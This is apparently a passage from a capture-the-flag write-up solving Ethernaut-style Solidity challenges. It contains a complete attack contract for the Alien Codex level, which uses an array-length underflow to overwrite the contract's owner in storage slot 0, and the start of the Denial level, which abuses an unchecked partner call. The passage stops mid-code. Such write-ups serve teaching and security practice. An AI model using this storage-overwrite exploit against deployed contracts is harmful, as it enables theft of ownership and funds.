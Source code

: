 The smart contract is written under version `0.5.0`, and we notice a vulnerability of **underflow**:
```solidity
function retract() contacted public {
   codex.length--;
}
```
In the beginning, the codex length is 0, after calling the `retract()` function, it will cause an underflow(0 - 1 = 2^256 -1). So, after calling the `retract` function, the length of the `codex` array will be 2^256 -1, which seems **we have complete control of the whole storage of the contract**.<br>
We know that the owner's address is stored in `slot 0`, and since the `codex` array has full control of the storage, there must be an index of the `codex` array that occupies the `slot 0`. In another words: `slot 0 = keccak256(1) + index`, which gives: `index = -keccak256(1)`. We can easily calculate the index using solidity:
```solidity
uint256 array_slot = uint256(keccak256(abi.encode(uint256(1))));
uint256 index = -array_slot;
```
After getting the index that occupies the `slot 0`(the slot that contains the owner address), we can simply call the function `revise(uint i, bytes32 _content)`, and pass our address as the *_content* argument, but in a bytes32 format:
```solidity
 _target.revise(index, bytes32(uint256(uint160(<OUR ADDRESS>))));
```
The full Attack contract code to hack the challenge:
```solidity
contract AlienCodexAttack {

  constructor(AlienCodex _target) public {
    _target.make_contact();
    _target.retract();

    uint256 array_slot = uint256(keccak256(abi.encode(uint256(1))));
    uint256 index = -array_slot;
    _target.revise(index, bytes32(uint256(uint160(msg.sender))));

    require(_target.owner() == msg.sender, "Attack failed");
  }
}
```

[Attack Contract](./contracts/AlienCodex.sol) | [Test script](./test/AlienCodex.test.js)

## 20 - Denial

To solve this challenge, we need to prevent the owner from receiving ether when someone calls the `withdraw` function.
The `withdraw` function's logic is as follows:
```solidity
function withdraw() public {
   uint amountToSend = address(this).balance / 100;
   // perform a call without checking return
   // The recipient can revert, the owner will still get their share
   partner.call{value:amountToSend}("");
   payable(owner).transfer(amountToSend);
   // keep track of last withdrawal time
   timeLastWithdrawn = block.timestamp;
   withdrawPartnerBalances[partner] +=  amountToSend;
}
```
We notice that 1% of the contract's balance is transferred first to the partner, and then to the owner. We can simply become partner by calling the function `setWithdrawPartner` and passing our address
```solidity
function setWithdrawPartner(address _partner) public {
```